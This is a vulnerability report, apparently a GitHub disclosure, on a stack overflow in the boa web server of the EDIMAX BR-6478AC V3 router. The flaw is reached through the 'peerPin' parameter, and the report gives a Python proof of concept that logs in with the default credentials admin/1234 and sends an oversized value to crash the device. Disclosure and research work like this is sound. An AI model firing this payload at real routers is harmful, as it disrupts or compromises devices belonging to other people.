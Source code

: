 # EDIMAX Stack Overflow
**description**: 
a stack overflow vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0044a70c function and peerPin in /bin/boa


## Firmware
**brand**:edimax 

**product**:AC1200 Wave 2 Dual-Band Gigabit Router 

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this [website][1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows and the defalut username is **admin** and default is **1234**: 
![alt text](img/login.png)

using ghidra we can know the action is formWsc
![alt text](img/action.png)
and the relate web page is as follows and url of page is http://192.168.2.1/wlwps.htm:
![alt text](img/url.png)


## analyze
Using ghidra we can know that the post parameter "peerPin" will be sprintf as the second input parameter and result the stack overflow
![](img/code_line.png)
![alt text](img/code_line2.png)
The details of the function as follows:

**addr**:0044afd0
**function**: FUN_0044a70c
**parameter**:peerPin


# poc
the poc code as follow,
```
import requests

data={
	'username':'admin',
	'password':1234
}

url='http://192.168.2.1/boafrm/formWsc'
url_login='http://192.168.2.1/boafrm/formLoginSetup'
url_page='http://192.168.2.1/wlwps.htm'

res=requests.post(url=url_login,data=data)
print(res.text)
cookies = res.cookies
print(cookies)
res2=requests.get(url=url_page,cookies=cookies)
print(res2)

data2={
	'submit-url':'%2Fwlwps.htm',
	'save_apply':'Save+%26+Apply',
	'resetUnCfg':'0',
	'targetAPMac':'',
	'targetAPSsid':'',
	'configVxd':'off',
	'resetRptUnCfg':'0',
	'peerRptPin':'',
	'setPIN':'123',
	'peerPin':'8'*400

}

res3=requests.post(url=url,cookies=cookies,data=data2)
print(res3.text)

```
the result of POC is as follows,can find the segmentation fault
![alt text](img/stack_overflow.png)
![](img/after_attack.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3
